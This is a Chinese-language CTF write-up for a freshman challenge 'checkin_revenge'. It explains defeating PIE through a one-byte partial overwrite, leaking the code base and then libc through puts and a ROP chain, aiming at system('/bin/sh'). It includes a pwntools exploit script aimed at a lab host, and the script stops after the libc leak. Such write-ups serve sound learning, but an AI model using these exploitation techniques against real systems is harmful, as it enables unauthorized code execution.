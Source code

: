 来自某高校新生赛题—checkin\_revenge

输入三个数字满足等式，还是没啥限制，随意构造即可

![image-20211123175154905](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2864ffaded44061e01f4064b41385b5986cdb7c0.png)

这里存在明显的栈溢出

![image-20211123180155091](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-8c292519f4fb9f9ca01cc66d18dcacb5310eea76.png)

但是这一题是开了PIE和RELRO的64位程序，所以我们不能再覆盖got表，

![image-20211123175429770](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f4313f125a08458b5f4113aab68a157aa9edd873.png)

虽然PIE烦人，但是还是有弱点的：

**PIE 保护的一个弱点就是pie不会随机化地址的低12位，通俗点说就是我们十六进制地址的后三位，这样我们才有“文章”可做**

现在先整理一下思路：

- 我们的目的是得到libc中system和/bin.sh的地址
- 开启了地址随机化，每次运行的基址都不一样，所以得先得到每次程序运行的libc的基址，这里我们利用**libc\_start\_main**，我们想办法得到程序中libc\_start\_main的地址，减去libc中的偏移，得到libc基址，进而获得system等的地址
- 为了得到libc基址，我们已经让程序正常运行了一次，那我们接下来就是要让程序再出现一次栈溢出漏洞,在这时截获它，让它运行system(’/bin/sh’), getshell

所以程序的运行地址我们要先泄露出来，有了它我们就能利用 **plt表** 泄露出 **got表** 内容。

具体做法是利用 **put()** 函数是打印一个字符串，直到遇到 '**\\x00**'才会停止打印，而我们输入的函数是 **read()** ，它不会帮我们添加 '**\\x00**',所以我们能用这个点来泄露出 **vlu()** 的返回地址，即main函数里的地址，也就能得到程序的运行基址，注意到 **vul()** 的返回地址为 **A89** ，而我们只能覆盖一个字节，开了PIE后只有最后三位是相同的，所以不能覆盖两个字节，所以我们只能回到 **A7F**处，同样能达到我们再次栈溢出的目的

![image-20211123182311710](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c1476212b795f17d6e61ef464cb08908554f7865.png)

然后有了程序基址，我们正常利用puts的**plt表**来调用puts泄露**got表**内容，因为got表写的是libc函数地址，所以就等于我们得到了libc基址，然后就是64位正常做。

#### EXP：

```python
from pwn import *
context.log_level = 'debug'

#p = process("./checkin_revenge")
p = remote("172.16.68.4", 10002)
e = ELF("./checkin_revenge")

a = str(1)
b = str(2)
c = str(3)

off = 0x10 + 8 
p.sendlineafter("Give me your a:",a)
p.sendlineafter("Give me your b:",b)
p.sendlineafter("Give me your c:",c)

#gdb.attach(p, "bp $rebase(0x991)")
payload = "a" * off + "\x7f"
p.send(payload)
main_addr = u64(p.recvuntil('\x55')[-6:].ljust(8,'\x00'))
success("main:" + hex(main_addr))
code_base = main_addr & 0xfffffffffffff000

puts_plt = e.plt["puts"] + code_base
print("puts_plt:" + hex(puts_plt))
puts_got = e.got["puts"] + code_base
pop_rdi = 0x0000000000000b03 +  code_base
payload = 'a' * off  + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr) 
p.send(payload)
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,"\x00"))
```